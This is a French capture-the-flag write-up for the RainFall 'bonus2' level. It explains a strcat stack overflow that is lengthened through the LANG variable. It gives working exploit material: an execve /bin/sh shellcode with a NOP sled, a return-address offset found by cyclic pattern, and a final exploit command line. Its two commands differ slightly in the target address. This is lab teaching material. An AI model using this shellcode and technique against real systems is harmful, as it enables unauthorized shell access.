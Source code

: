 # Soluce

```
cat - | ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 23 + "\x25\xf3\xff\xbf" + "A" * 30)') 
```

## Description du code

Main :

-   une variable global language est declarer est est initialiser de base a 0
-   3 buffer son declarer dest et v4 d'une taille de 76, v6 d'une taille non defini
-   dest est remplie de zero
-   les 40 premier charactere de argv[1] son copier dans dest
-   les 32 premier charactere de argv[2] son concatener dans dest
-   La veleur de la variable d'environnment LANG est assignet a v6
-   Si v6 est egale a fi, la valeur de language est 1 
-   Si v6 est egale a nl, la valeur de language est 2
-   dest est copier dans v4

-   la fonction greetuser est appeler en lui passant v4 comme argument

GreetUser :

-   3 variable son declarer seulement dest est importante
-   si langage est egale a 1 "Hyvää päivää " est copier dans dest
-   si elle est egale a 2 "Goedemiddag! " est copier dans dest
-   si elle est egale a 3 "Hello " est copier dans dest
-   dest est src son concatener grace a strcat

## Explication 

On va pouvoir faire overflow le dest de la fonction getuser, et atteindre l'adresse de retour pour executer un shellcode, cependant on devra export une variable d'environemment "LANG" il faudra qu'elle est pour valeur "nl" ou "fi". L'idee est que comme argv[1] et argv[2] sont copier dans dest,et si l'on export "nl" dans LANG, la string "Goedemiddag! " sera elle aussi copier dans dest, si l'on met rien dans LANG seulement 2 octet de l'adresse de retour serons overwrite, mais avec "nl" ou "fi dest sera suffisament grande pour overwrite la totalite de l'adresse de retour.

### Pour "fi"
```
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2 

(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')

Single stepping until exit from function main,
which has no line number information.
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

### Pour ""

```
bonus2@RainFall:~$ export LANG=""
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```

### Pour "nl"

```
bonus2@RainFall:~$ export LANG="nl"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info r 
(...)
eip            0x42424242       0x42424242
(...)
```

### Payload

Maintenant que l'on sait, que l'adresse de retour est ecrasé, il nous suffit d'obtenir l'offset est d'y mettre un shellcode :

```
bonus2@RainFall:~$ export LANG="nl"
```
#### Shellcode
----------------------------------------------------------------
```
export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')

bonus2@RainFall:~$ gdb ./bonus2 
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) run 
Starting program: /home/user/bonus2/bonus2 

Breakpoint 1, 0x0804852f in main ()
(gdb) call (char *) getenv("SHELLCODE")
$1 = 0xbffff132 "\220\220\220\220\220\220\220\220\220"...
```
0xbffff132 + 500 (pour atterir dans le nop sled) = 0xbffff326

#### Offset
----------------------------------------------------------------
(gdb) run $(python -c 'print("A" * 40)') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab
5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x0804852f in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
(...)
eip            0x38614137       0x38614137
(...)

38614137 -> 8aA7 -> 7Aa8 -> 23

##### Final Payload
----------------------------------------------------------------
(Argv[1] = [Padding de 40]) (Argv[2] = [Padding de 23] + [Adress du shellcode] + [Padding pour overflow])

cat - | ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 23 + "\x26\xf3\xff\xbf" + "A" * 30)') 